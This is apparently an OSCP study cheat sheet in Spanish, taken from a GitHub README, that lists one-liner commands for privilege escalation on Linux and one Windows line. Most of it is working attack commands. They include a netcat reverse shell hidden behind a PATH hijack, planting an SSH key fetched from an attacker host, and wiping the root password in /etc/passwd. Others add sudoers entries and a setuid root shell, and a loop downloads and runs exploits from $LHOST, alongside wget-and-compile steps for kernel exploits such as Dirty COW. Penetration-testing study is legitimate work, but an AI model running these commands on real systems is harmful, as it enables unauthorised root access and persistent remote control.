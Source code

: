 Linux: https://github.com/pedroarias1015/oscp/blob/master/escalacion/README.md#elevacion-de-privilegios-linux
Windows: https://github.com/pedroarias1015/oscp/blob/master/escalacion/README.md#elevacion-de-privilegios-windows

# Elevacion de privilegios LINUX

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
Permisos de W    -->  find / -writable -type d 2>/dev/null
Permisos de W    -->  find / -perm -222 -type d 2>/dev/null
Permisos de W    -->  find / -perm -o w -type d 2>/dev/null    
Permisos de X    -->  find / -perm -o x -type d 2>/dev/null
Permisos de W+X  -->  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
Permisos de R    -->  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

17) Compartir carpeta RDP --> `rdesktop -u <USUARIO> -p <CONTRASEÑA> <IP> -r disk:remote_folder=<LOCAL_PATH> -g $(xrandr -q | awk '/ connected / {print $4;exit}' | awk -F "x" '{print int($1/1.05)"x"int($2/1.1)}')`


## Compilacion

18) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

19) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

20) __Exploits precompilados para Linux__ https://github.com/lucyoa/kernel-exploits  `git clone https://github.com/lucyoa/kernel-exploits.git` 

21) __CLAVE: Windows exploits precompilados__ https://github.com/SecWiki/windows-kernel-exploits

22) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

23) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

24) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

25) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

26) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

27) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

28) __CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)__ 
<pre>
wget -O 14814.c http://www.exploit-db.com/download/14814
gcc 14814.c -o can
</pre>

29) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`

# Elevacion de privilegios WINDOWS

## Utilidades
20) Ejemplo escapado de caracteres en Windows --> `echo net user rady rady /add 1^> "C:\Documents and Settings\Backup\net4.log" 2^>^&1 > backup-python.cmd`
